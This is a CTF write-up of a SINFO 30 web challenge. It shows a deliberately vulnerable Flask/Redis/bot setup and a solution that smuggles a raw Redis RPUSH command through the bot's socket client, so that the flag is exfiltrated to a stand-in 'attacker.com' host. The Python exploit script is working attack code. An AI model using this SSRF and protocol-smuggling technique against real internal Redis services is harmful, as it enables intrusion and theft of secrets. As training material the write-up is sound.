


This challenge was part of a CTF event hosted by [SINFO 30](https://sinfo.org/).


## Challenge statement

This challenge provided a web application deployed using 3 docker containers: a web frontend running in Python, a Redis backend using an image from the Docker registry and a scraper bot running in JavaScript.

```yaml
# docker-compose.yml

version: '3'
services:
  surf_web:
    build: app/.
    command: flask run --host=0.0.0.0
    restart: always
    env_file:
      - .env.app
    ports:
      - "13337:5000"
    depends_on:
      - surf_redis
    networks:
      - net
  surf_redis:
    image: redis
    restart: always
    ports:
      - "6379:6379"
    networks:
      - net
  surf_bot:
    platform: linux/x86_64
    restart: always
    build: bot/.
    env_file:
      - .env.bot
    depends_on:
      - surf_web
    networks:
      - net

networks:
  net:
```

```python
# app.py

from flask import Flask, request, render_template
from redis import Redis
from flask_wtf import FlaskForm
from wtforms import StringField, SubmitField
from wtforms.validators import DataRequired

import json
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(32)
app.config['WTF_CSRF_CHECK_DEFAULT'] = False

redis = Redis(host=os.getenv('REDIS_HOST', 'localhost'),
              port=int(os.getenv('REDIS_PORT', '6379')),
              db=0)
redis.set('queued_count', 0)
redis.set('proceeded_count', 0)


class ReportForm(FlaskForm):
    url = StringField('Url', validators=[DataRequired()], default="s3np41://")
    text = StringField('Text', validators=[DataRequired()])


@app.route("/", methods=['GET', 'POST'])
def post():
    form = ReportForm()

    if request.method != 'POST':
        return render_template('main.html', form=form)

    if form.validate():
        redis.rpush('query', json.dumps(
            {'url': form.url.data, 'message': form.text.data}))
        redis.incr('queued_count')

        return render_template('main.html', form=form, error='Your message has been queued :)')

    print("Found error in form...")
    print(form.errors)

    return render_template('main.html', form=form, error='Gib valid form')


if __name__ == '__main__':
    app.run(port=5000, debug=True)
```

```javascript
// bot.js

const Redis = require("ioredis")
const net = require("net")
const dns = require("dns")

const REDIS_HOST = process.env.REDIS_HOST;
const FLAG = process.env.FLAG;
const REDIS_PORT = 6379;

const redis = new Redis({
    host: REDIS_HOST,
    port: REDIS_PORT
})

const blacklist = new net.BlockList();
blacklist.addRange("172.16.0.0", "172.31.255.255")
blacklist.addRange("127.0.0.0", "127.255.255.255")

const crawl = async (url, msg) => {
    try {
        const parsed_url = new URL(url);
        
        const host = (await dns.promises.lookup(parsed_url.hostname)).address;
        
        console.log(`[*] got ${host}, ${parsed_url.port}`)
        
        if (typeof(host) !== "string" || typeof(msg) !== "string") {
            console.log(`[*] bad host or msg`)
            return;
        }
        
        if (blacklist.check(host)) {
            msg = msg.replace("$$FLAG$$", FLAG)
        }
        
        console.log(`[*] sending message ${msg}`)

        let client = new net.Socket();
        
        client.setTimeout(1000, () => {
            console.log(`[*] timeout`)
            client.destroy()
        })
        
        client.connect(parsed_url.port, host, function() {
            client.write(msg);
            client.destroy();
        })
    } catch(e) {
        console.log(`[*] error(${url}): ${e}`);
    }
}

(async () => {    
    console.log("[*] Bot started")
    while (true) {
        console.log(
            "[*] progress: ",
            await redis.get("proceeded_count"),
            "/",
            await redis.get("queued_count")
        );
        await redis
            .blpop("query", 0)
            .then((v) => {
                const obj = v[1];
                const {url, message} = JSON.parse(obj);
                console.log(`[*] crawl ${url}, ${message}`)
                return crawl(url, message)
            })
            .then(() => {
                return redis.incr("proceeded_count")
            });
    }
})()
```

## Application Workflow

The application is very simple. The frontend receives a 2 text inputs: a URL and a message.



The Python program program will then take this input and push it into a table within the Redis instance.

```python
if form.validate():
    redis.rpush('query', json.dumps(
        {'url': form.url.data, 'message': form.text.data}))
    redis.incr('queued_count')
```

In the background, the bot is reading entries from the same table and sending the messages to the corresponding URL through a socket connection.

```javascript
client.connect(parsed_url.port, host, function() {
    client.write(msg);
    client.destroy();
})
```

## Objective

The point of the challenge is to trick the application into sending the flag to the attacker.
Looking at the code for the bot, we can see that it injects the flag into the message when the host belongs to a designated blacklist.

```javascript
if (blacklist.check(host)) {
    msg = msg.replace("$$FLAG$$", FLAG)
}
```

This blacklist is populated with the following addresses.

```javascript
const blacklist = new net.BlockList();
blacklist.addRange("172.16.0.0", "172.31.255.255")
blacklist.addRange("127.0.0.0", "127.255.255.255")
```

## Solution

Since the blacklist includes the IP range that Docker uses to assign addresses to containers, messages sent to the Redis instance will allow the injection of the flag.
The Redis protocol is also very simple and you can send commands to the service by writing directly in the socket that it exposes.
As a result, it is possible to send the flag to the attacker by first sending a message to the Redis server.
This message will be a Redis command that will push the attacker controlled URL and the `$$FLAG$$` placeholder.
The placeholder will be replaced by the flag when the command is sent to Redis, which will cause it to queue the flag to be sent to the attacker.
The following script can accomplish this.

```python
import requests
from bs4 import BeautifulSoup

URL = 'APPLICATION_URL'

form_data = {
        'url': 'http://surf_redis:6379',
        'text': "RPUSH query '{\"url\": \"http://attacker.com\", \"message\": \"$$FLAG$$\"}'\r\n",
        'submit': "Submit",
        }

s = requests.session()
r = s.get(URL).text
soup = BeautifulSoup(r)
form_data['csrf_token'] = soup.find("input", {'id': "csrf_token"})['value']
print(form_data)
r = s.post(URL, data=form_data)
print(r)
```
